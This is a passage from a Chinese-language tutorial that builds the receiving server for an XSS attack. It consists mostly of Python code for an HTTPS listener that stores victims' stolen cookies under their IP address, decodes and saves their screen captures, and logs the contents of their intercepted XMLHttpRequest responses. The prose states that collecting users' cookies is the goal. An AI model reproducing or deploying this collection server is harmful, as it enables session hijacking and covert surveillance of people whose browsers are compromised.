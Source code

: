 ```
print("HTTTPS Server listening on 0.0.0.0:%d"%port)
httpd.serve_forever()
```

以上代码将会创建一个支持HTTPS协议的WEB服务器，功能同`python -m SimpleHTTPServer 8000`类似

### 2.区分不同的数据，提取出关键内容并保存

需要自定义处理模块RequestHandler，处理GET包和POST包

处理GET包的代码如下：

```
class RequestHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        f = self.send_head()
        if f:
            self.copyfile(f, self.wfile)
            f.close()
        print(self.headers["User-Agent"])
        if "/cookie" in self.path:
            localtime = time.strftime("%Y%m%d-%H%M%S", time.localtime())           
            savePath = self.client_address[0] + "-Cookie-" + str(localtime) + ".txt"
            print("[+] New Cookie: ")
            print("    Save as: " + savePath)
            cookieData = urllib.parse.unquote(self.path[15:])
            file = open(savePath,'wb')
            file.write(cookieData.encode())
            file.close()
```

其中，`print(self.headers)`用来输出GET请求的Header内容，可用于识别用户浏览器

为了获取用户Cookie，这里采用自定义格式，如果GET请求的地址带有cookie字符，将请求内容保存成文件，存储获得的用户Cookie

处理POST包的代码如下：

```
class RequestHandler(SimpleHTTPRequestHandler):
    def do_POST(self):
        data = "Success"
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.end_headers()
        self.wfile.write(data.encode("utf-8"))
        req_datas = self.rfile.read(int(self.headers["content-length"]))
        print(self.headers["User-Agent"])
        if self.path == "/screen":
            localtime = time.strftime("%Y%m%d-%H%M%S", time.localtime())           
            savePath = self.client_address[0] + "-CaptureScreen-" + str(localtime) + ".png"
            print("[+] New CaptureScreen: ")
            print("    Save as: " + savePath)
            base64str = urllib.parse.unquote(req_datas.decode())
            base64str = base64str[33:]
            imgData = base64.b64decode(base64str)
            file = open(savePath,'wb')
            file.write(imgData)
            file.close()
        elif self.path == "/data":
            localtime = time.strftime("%Y%m%d-%H%M%S", time.localtime())           
            savePath = self.client_address[0] + "-XMLHttpRequest-" + str(localtime) + ".html"
            httpData = urllib.parse.unquote(req_datas.decode())
            index = httpData.index(';data=')
            targetURL = httpData[9:index]
            responseData = httpData[index+6:]
            print("[+] New XMLHttpRequest")
            print("    TargetURL: " + targetURL)
```